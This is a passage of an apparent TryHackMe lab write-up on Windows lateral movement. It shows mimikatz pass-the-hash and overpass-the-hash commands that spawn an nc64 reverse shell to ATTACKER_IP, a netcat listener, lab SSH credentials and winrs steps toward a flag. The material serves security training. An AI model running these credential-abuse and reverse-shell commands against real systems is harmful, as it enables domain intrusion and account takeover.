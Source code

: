 ```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to theÂ NTLMÂ hash of a user. This means that if we could extract theÂ NTLMÂ hash, we can use it to request aÂ TGTÂ as long as RC4 is one of the enabled protocols. This particular variant is usually known asÂ **Overpass-the-Hash (OPtH)**.

To receive the reverse shell, we should run a reverse listener on our AttackBox:


```shell-session
user@AttackBox$ nc -lvp 5556
```

Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.

  

## Let's Get to Work!

To begin this exercise, you will need to connect to THMJMP2 using the following credentials viaÂ SSH:

User:Â ZA.TRYHACKME.COM\t2_felicia.dean

Password:Â iLov3THM!

`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

These credentials will grant you administrative access to THMJMP2, allowing you to use mimikatz to dump the authentication material needed to perform any of the techniques presented during this task.

Using yourÂ SSHÂ session, use mimikatz to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain userÂ `t1_toby.beck`.

Once you have a command prompt with his credentials loaded, useÂ `winrs`Â to connect to a command prompt on THMIIS. Since t1_toby.beck's credentials are already injected in your session as a result of any of the attacks, you can use winrs without specifying any credentials, and it will use the ones available to your current session:

```shell-session
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

You'll find a flag on t1_toby.beck's desktop on THMIIS. BothÂ `mimikatz`Â andÂ `psexec64`Â are available atÂ `C:\tools`Â on THMJMP2.


### Practical
---

In this occasion, i will use `PTH`, let's go into ssh first:
